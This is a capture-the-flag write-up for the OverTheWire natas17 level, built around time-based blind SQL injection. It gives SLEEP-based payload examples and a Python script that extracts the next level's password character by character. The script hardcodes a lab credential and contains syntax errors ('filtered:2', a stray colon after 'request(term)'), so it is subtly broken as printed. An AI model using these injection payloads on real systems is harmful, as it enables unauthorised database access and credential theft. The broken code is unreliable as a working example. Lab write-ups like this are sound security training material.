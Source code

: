 
Another Blind SQL injection, now a time based one.

Question: SELECT * FROM users WHERE username="natas18" AND SLEEP(5) #

Answer: username exists, duration of the query is >= 5 seconds


Question: SELECT * FROM users WHERE username="no one by this name" AND SLEEP(5) #

Answer: username does not exists, duration of the query is < 5 seconds

### Using custom script

```python
import urllib.request
from string import ascii_letters, digits
from time import time
from urllib.request import (HTTPBasicAuthHandler,
                            HTTPPasswordMgrWithDefaultRealm)

CHARS=ascii_letters + digits
URI='http://natas17.natas.labs.overthewire.org/?debug'

auth_handler = HTTPBasicAuthHandler(HTTPPasswordMgrWithDefaultRealm())
auth_handler.add_password(
    realm=None,
    uri=URI,
    user='natas17',
    passwd='8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
opener = urllib.request.build_opener(auth_handler)

def request(term):
    sleep = 3
    query = f'natas18" AND password LIKE BINARY "{term}" AND SLEEP({sleep}) #'
    data = urllib.parse.urlencode({ 'username': f'{query}' })
    data = data.encode('ascii')
    req = urllib.request.Request(url=URI, data=data, method='POST')
    start = time()
    with opener.open(req) as f:
        duration = time() - start
        return duration >= sleep

filtered=''
for char in CHARS:
    if request(f'%{char}%'):
        filtered = filtered + char
        print(filtered)

password=''
found = False
while password == '' or found:
    for char in filtered:2
        term = f'{password}{char}%'
        found = request(term):
        if found:
            password = password + char
            break
    print(password)
```
